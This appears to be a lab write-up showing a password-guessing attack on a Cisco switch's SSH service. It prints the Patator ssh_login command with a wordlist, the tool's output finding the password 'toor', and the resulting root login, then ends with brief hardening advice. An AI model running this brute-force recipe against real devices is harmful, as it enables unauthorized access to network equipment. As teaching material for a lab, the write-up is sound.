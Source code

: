 ```yaml
---
title: Password guessing attack
---
```


# Password guessing attack

1. Goal
    * Getting SSH access to a switch

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 Cisco device

3. Used software
    * Kali Linux (2020.1)

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started

    1. The username (root) is already obsolete and de the IP address of the switch is 192.168.1.254.
    
    2. Check the SSH connection of the switch.

    ```
    kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    Password: 
    Password: 
    root@192.168.1.254's password: 
    Connection closed by 192.168.1.254 port 22
    kali@KALI1:~$
    ```
    3. Start Patator on Kali Linux
   
    [More information about Patator](https://tools.kali.org/password-attacks/patator)
    
    * Select the module ssh_login.
    * Define the host and user.
    * Select a password file.
    * Ignore "Authentication failed" messages.

    
    ```
    kali@KALI1:~/Desktop$ patator ssh_login host=192.168.1.254 user=root password=FILE0 0=password.lst -x ignore:mesg='Authentication failed.'
    14:01:47 patator    INFO - Starting Patator v0.7 (https://github.com/lanjelot/patator) at 2020-05-26 14:01 CEST
    14:01:47 patator    INFO -                                                                              
    14:01:47 patator    INFO - code  size    time | candidate                          |   num | mesg
    14:01:47 patator    INFO - -----------------------------------------------------------------------------
    14:08:34 patator    INFO - 0     18     2.155 | toor                               |   450 | SSH-2.0-Cisco-1.25
    ^C
    14:10:59 patator    INFO - Hits/Done/Skip/Fail/Size: 1/611/0/0/3560, Avg: 1 r/s, Time: 0h 9m 12s
    14:10:59 patator    INFO - To resume execution, pass --resume 61,61,61,61,61,61,61,61,61,62
    kali@KALI1:~/Desktop$
    ```
    The password (toor) has been retrieved!

     4. Check the SSH connection of the switch.

     ```
     kali@KALI1:~$ ssh 192.168.1.254 -l root
    Password: 
    S1#
     ```

6. Conclusion
    * Protect your SSH connections well! (Management VLAN, strong password, restrict access, ...)